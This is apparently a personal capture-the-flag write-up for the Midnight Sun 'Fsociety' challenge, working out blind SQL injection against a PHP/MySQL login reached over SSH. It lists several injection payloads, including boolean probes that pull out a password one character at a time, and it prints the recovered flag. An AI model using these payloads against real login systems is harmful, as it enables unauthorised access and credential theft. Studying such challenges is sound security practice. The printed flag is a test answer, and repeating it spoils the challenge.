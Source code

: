 # Challenge: Fsociety (pwn,cyberz)

The fsociety have a vulnerability in their server login backend, hack them to get elliot's password!

ssh -p2222 fsociety-01.play.midnightsunctf.se 

# My attempt (I didn't solve it)

The ssh server says it is a PHP+MySQL login. So we can try SQL injection.

SQL injection works. Checked with the password:
```
' or 1 = 1 --'
```

Eventhough SQL injection lets us in, there is no TTY allocated.
Instead it attaches to an echo service like process.
I tried to see if there is some format string vulnerability.
But I couldn't find if there is one.
All the common special characters like %x $user, don't do anything special.
They are just printed as they are.

Now the only info that we get is if we are logged in or not.
So we have to use that to find the password.
If we can have something like the following SQL query
```
select password from table where password='password' or password like 'a%';
```

## Testing some SQL

```
' or password like "%"; --'
```
The above query doesn't work. Let's see if " is the problem

```
' or "1" = "1"; --'
```
The above query also doesn't work.

```
' or '1' = '1' --'
' or "1" = "1" --'
```
Semi colon seems to be the problem (not "). Both of the above SQL statement works.

```
' or password like 'm%' --'
```
The above query doesn't work, maybe due to '%' symbol or name of password field being different

```
' or (username = 'elliot' and  1=1 ) --'
```
The above query works

```
' or username like '%' --'
```
Doesn't work

```
' or LEFT(username,2)= 'el' --'
```
Works

```
' or (username = 'elliot' and LEFT(password,1) = "m" ) --'
```
The above query works. Cool

I know that the flag format is midnight{}. So let's try to match that part.

```
' or (username = 'elliot' and LEFT(password,9) = "midnight{" ) --'
```
This also works. The fieldnames are now confirmed ('username' and 'password').
Now for some scripting.

## Script

I wrote a script [login.py](login.py) and It is taking too long.
I think I'm bruteforcing the flag instead of finding it in an easy way. Not sure.

So maybe I should not put the flag in the CTF to avoid cheating.
There should be some other easy way to do it.

The flag is midnight{ba053ffb-cc3c-4ab7-9a85-15a594cc43e9}

But I feel bad for bruteforcing it.
So I'll not post it for the points until I find some other way of finding the password.

I did not find any other way so I didn't upload the flag.
